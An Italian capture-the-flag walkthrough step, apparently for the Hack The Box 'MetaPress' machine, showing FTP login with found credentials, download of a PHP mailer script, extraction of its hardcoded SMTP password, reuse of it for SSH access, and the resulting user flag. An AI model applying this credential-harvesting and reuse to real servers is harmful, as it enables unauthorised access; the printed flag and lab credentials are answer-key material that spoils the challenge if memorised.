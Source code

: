 1) Accediamo al server FTP con le credenziali trovate precedentemente
2) Vediamo che di sta nella directory principale:
ftp> ls
229 Entering Extended Passive Mode (|||11785|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5 14:12 blog
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5 14:12 mailer


3) Entriamo nella directory mailer: cd mailer
4) Vediamo che ci sta dentro questa directory:
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5 14:12 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22 18:32 send_email.php

5) Trasferiamo il file send_email.php in locale: get  send_email.php
6) Apriamo il file in locale: cat  send_email.php
OUTPUT:
<?php

 * This script will be used to send an email to all our users when ready fo

use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\SMTP;
use PHPMailer\PHPMailer\Exception;

require 'PHPMailer/src/Exception.php';
require 'PHPMailer/src/PHPMailer.php';
require 'PHPMailer/src/SMTP.php';

$mail = new PHPMailer(true);

$mail->SMTPDebug = 3;                               
$mail->isSMTP();            

$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;                                   

$mail->From = "jnelson@metapress.htb";
$mail->FromName = "James Nelson";

$mail->addAddress("info@metapress.htb");

$mail->isHTML(true);

$mail->Subject = "Startup";
$mail->Body = "<i>We just started our new blog metapress.htb!</i>";

try {
    $mail->send();
    echo "Message has been sent successfully";
} catch (Exception $e) {
    echo "Mailer Error: " . $mail->ErrorInfo;
}

7) Abbiamo scoperto le credenziali per entrare nel server con il servizio SSH: 
   jnelson:Cb4_JmWM8zUZWMu@Ys

8) Entrando con le credenziali nella directory leggiamo il file user.txt:
f5e5b0acb3245c921789a2bd5b3e6418
